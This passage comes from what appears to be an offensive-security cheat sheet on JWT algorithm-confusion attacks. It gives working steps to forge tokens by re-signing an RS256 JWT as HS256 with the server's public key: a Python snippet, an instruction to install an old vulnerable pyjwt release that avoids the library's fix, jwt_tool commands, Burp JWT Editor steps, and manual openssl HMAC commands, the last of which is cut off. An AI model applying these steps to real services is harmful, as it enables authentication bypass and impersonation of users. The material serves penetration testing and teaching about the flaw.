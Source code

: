 If a server’s code is expecting a token with "alg" set to RSA, but receives a token with "alg" set to HMAC, it may inadvertently use the public key as the HMAC symmetric key when verifying the signature.

Because the public key can sometimes be obtained by the attacker, the attacker can modify the algorithm in the header to HS256 and then use the RSA public key to sign the data. When the applications use the same RSA key pair as their TLS web server: `openssl s_client -connect example.com:443 | openssl x509 -pubkey -noout`

> The algorithm **HS256** uses the secret key to sign and verify each message.
> The algorithm **RS256** uses the private key to sign the message and uses the public key for authentication.

```python
import jwt
public = open('public.pem', 'r').read()
print public
print jwt.encode({"data":"test"}, key=public, algorithm='HS256')
```

:warning: This behavior is fixed in the python library and will return this error `jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.`. You need to install the following version: `pip install pyjwt==0.4.3`.

* Using [ticarpi/jwt_tool](#)
    ```ps1
    python3 jwt_tool.py JWT_HERE -X k -pk my_public.pem
    ```
* Using [portswigger/JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
    1. Find the public key, usually in `/jwks.json` or `/.well-known/jwks.json`
    2. Load it in the JWT Editor Keys tab, click `New RSA Key`.
    3. . In the dialog, paste the JWK that you obtained earlier: `{"kty":"RSA","e":"AQAB","use":"sig","kid":"961a...85ce","alg":"RS256","n":"16aflvW6...UGLQ"}`
    4. Select the PEM radio button and copy the resulting PEM key.
    5. Go to the Decoder tab and Base64-encode the PEM.
    6. Go back to the JWT Editor Keys tab and generate a `New Symmetric Key` in JWK format.
    7. Replace the generated value for the k parameter with a Base64-encoded PEM key that you just copied.
    8. Edit the JWT token alg to `HS256` and the data.
    9. Click `Sign` and keep the option: `Don't modify header`

* Manually using the following steps to edit an RS256 JWT token into an HS256
    1. Convert our public key (key.pem) into HEX with this command.

        ```powershell
        $ cat key.pem | xxd -p | tr -d "\\n"
        2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
        ```

    2. Generate HMAC signature by supplying our public key as ASCII hex and with our token previously edited.

        ```powershell
        $ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
